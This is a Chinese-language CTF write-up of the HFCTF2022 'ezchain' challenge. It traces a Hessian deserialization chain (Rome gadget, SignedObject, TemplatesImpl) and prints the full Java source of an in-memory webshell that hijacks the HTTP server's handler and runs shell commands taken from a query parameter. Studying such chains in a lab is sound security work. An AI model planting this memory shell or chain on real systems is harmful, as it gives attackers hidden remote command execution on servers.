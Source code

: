 # HFCTF2022-ezchain复现

> 首先，附上我y4大哥的博客:https://y4tacker.github.io/2022/03/21/year/2022/3/2022%E8%99%8E%E7%AC%A6CTF-Java%E9%83%A8%E5%88%86
>
> 请大家快来舔一下

## 0x01 题目

![image-20220326181820829](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220326181820829.png)

给了源码是`Hessian`的反序列化，应该不用多说了，该开撸了。而且不出网，就不能配合JNDI了。

## 0x02 解题

>  https://blog.csdn.net/weixin_44058342/article/details/104577155

搜索到的关于Hessian的反序列化，都推荐我们去看看`marshalsec`,然后我们就去看了

`Rome`+`XBean`+`Resin`,三条反序列化链条。

再加上题目的究极提示

![image-20220326202058175](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220326202058175.png)

我们选择`Rome`这条数据链，首先先熟悉一下这个利用链的触发流程。`HessianInput.readObject()`=>`MapDeserializer.readMap(in)`=>`HashMap.put(key,value)`=>`hashCode`=>`beanHashCode`=>`getter`

他们提出方法是搜索全局的`get`方法，但是我是一个懒狗，所以我做到这里也就到了结尾了。下面的思路都来自于y4和心心。

不难发现`SignedObject`的`getObject`

```java
    public Object getObject()
        throws IOException, ClassNotFoundException
    {
        // creating a stream pipe-line, from b to a
        ByteArrayInputStream b = new ByteArrayInputStream(this.content);
        ObjectInput a = new ObjectInputStream(b);
        Object obj = a.readObject();
        b.close();
        a.close();
        return obj;
    }
```

二次触发反序列化，`Hessian`的反序列化对于`_tfactory`有限制。然后我们就可以借助` TemplatesImpl`来执行命令了，但是不出网，但是没有回显，就是注入内存马了。存储一个内存马备用。

![image-20220326203948844](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220326203948844.png)

```java
import com.sun.net.httpserver.HttpContext;
import com.sun.net.httpserver.HttpExchange;
import com.sun.net.httpserver.HttpHandler;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.*;
import java.lang.reflect.Field;

public class Yyds extends AbstractTranslet implements HttpHandler {
    public void handle(HttpExchange t) throws IOException {
        String response = "Y4tacker's MemoryShell";
        String query = t.getRequestURI().getQuery();
        String[] var3 = query.split("=");
        System.out.println(var3[0]+var3[1]);
        ByteArrayOutputStream output = null;
        if (var3[0].equals("y4tacker")){
            InputStream inputStream = Runtime.getRuntime().exec(var3[1]).getInputStream();
            output = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int n = 0;
            while (-1 != (n = inputStream.read(buffer))) {
                output.write(buffer, 0, n);
            }
        }
        response+=("\n"+new String(output.toByteArray()));
        t.sendResponseHeaders(200, (long)response.length());
        OutputStream os = t.getResponseBody();
        os.write(response.getBytes());
        os.close();
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    public Yyds() throws Exception  {
        super();
        try{

            Object obj = Thread.currentThread();
            Field field = obj.getClass().getDeclaredField("group");
            field.setAccessible(true);
            obj = field.get(obj);

            field = obj.getClass().getDeclaredField("threads");
            field.setAccessible(true);
            obj = field.get(obj);
            Thread[] threads = (Thread[]) obj;
            for (Thread thread : threads) {
                if (thread.getName().contains("Thread-2")) {
                    try {
                        field = thread.getClass().getDeclaredField("target");
                        field.setAccessible(true);
                        obj = field.get(thread);
                        System.out.println(obj);

                        field = obj.getClass().getDeclaredField("this$0");
                        field.setAccessible(true);
                        obj = field.get(obj);


                        field = obj.getClass().getDeclaredField("contexts");
                        field.setAccessible(true);
                        obj = field.get(obj);

                        field = obj.getClass().getDeclaredField("list");
                        field.setAccessible(true);
                        obj = field.get(obj);
                        java.util.LinkedList lt = (java.util.LinkedList)obj;
                        Object o = lt.get(0);
                        field = o.getClass().getDeclaredField("handler");

                        field.setAccessible(true);
                        field.set(o,this);
                    }catch (Exception e){
                        e.printStackTrace();
                    }
                }

            }
        }catch (Exception e){
        }
    }

}
```

## 链子2

![image-20220326210519979](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220326210519979.png)

命令注入了。
